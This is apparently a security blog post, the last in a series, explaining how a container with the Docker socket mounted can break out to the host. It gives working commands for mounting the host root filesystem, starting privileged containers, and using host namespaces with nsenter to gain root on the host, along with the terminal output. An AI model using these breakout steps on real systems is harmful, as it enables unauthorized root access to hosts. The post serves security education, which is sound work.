

Container Breakouts – Part 3: Docker Socket
This post is part of a series and shows container breakout techniques that can be performed if a container is started with a mounted Docker socket inside the container.
The following posts are part of the series:
- Part 1: Access to root directory of the Host
- Part 2: Privileged Container
- Part 3: Docker Socket
Intro
You may have read for certain container deployments that it is absolutely necessary to link the socket into the container, but what are the implications? That is exactly what we are going to discuss in the last blog post in the series about container breakouts.
Docker Socket
You know, every time you have access to the Docker Socket (default location: /var/run/docker.sock) it means that you are root on the host. Here should be mentioned that it might be the case that you are not root on the system, if docker is used root-less. Some containerized applications may need access to the socket, e.g., for observation or local system management.
You have read correctly, local system management. As soon you have access to the socket, you can manage the local system. Okay, first at all, you can manage containers and these containers can afterward manage the system.
So if you want to escalate from the container to the system, you can interact with the Docker Socket manually or just simple install Docker (on ubuntu: sudo apt update && sudo apt install -y docker.io) in the container. What the next step? Exactly, start a further container.
Known Techniques
First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with Part 1 of this series.
~# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/#
The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with Part 2 of this series.
~# docker run --rm --privileged -it ubuntu bash
root@aad2c9378900:/#
These steps are a bit obvious, but explain what hove done wrong in the other cases
Dropping Namespace Boundaries
As we can take from the amazing artwork by Julia Evans and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page man namespaces).

To get details about which namespace is assigned to a process, we can take this information out of the proc filesystem (for each process ls -l /proc/self/ns/). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (
ipc) - mount (
mnt) - network (
net) - process id (
pid) - hostname (
uts)
The CIS Docker Benchmark recommends as well to configure docker in a way to spawn an own user namespace (uid).
If we want to break out of the container to get full system access we start a new container with all (possible) namespaces from the host via the docker socket. Only the mnt namespace cannot be set at container startup. Since we start our container privileged, there is no seccomp filter in place and we can use nsenter to switch to mount namespace of the init process.
~# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'
~# docker run --rm -it --privileged --network host --pid host --ipc host --uts host ubuntu bash
root@arch:/# nsenter -t 1 -m
[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'
[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'
We can now behave as a user root with full access to the host system.
Conclusion
The final breakout technique was a bit more detailed about what docker does under the hood to secure containers. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.
The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify another important one, I will update, extend, and re-organize the content.
I hope you enjoyed my little series and I am looking forward to if one of you has some ideas for extending container breakouts.
Remarks
The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:
- CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host
- Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271
At the end of writing, I realized that Jesse Hertz from NCC Group has released Abusing Privileged and Unprivileged Linux Containers which is an even more comprehensive collection to breakout of a container. A collection of tools that test for container breakouts have been collected by Clint Gibler in Container Security – A collection of container security resources and tools, organized by category.
The focus of this series was on the operating system level. Nowadays containers are managed and orchestrated in a cluster environment by Kubernetes or Nomad to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.
Final words
Since I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:
- Brad Geesaman
- Chris Le Roy
- Clint Gibler
- Duffie Cooley
- Ian Coldwater
- Jessie Frazelle
- Mark Manning
- Matthias Luft
- Rory McCune
To name a few – you are awesome – please continue !!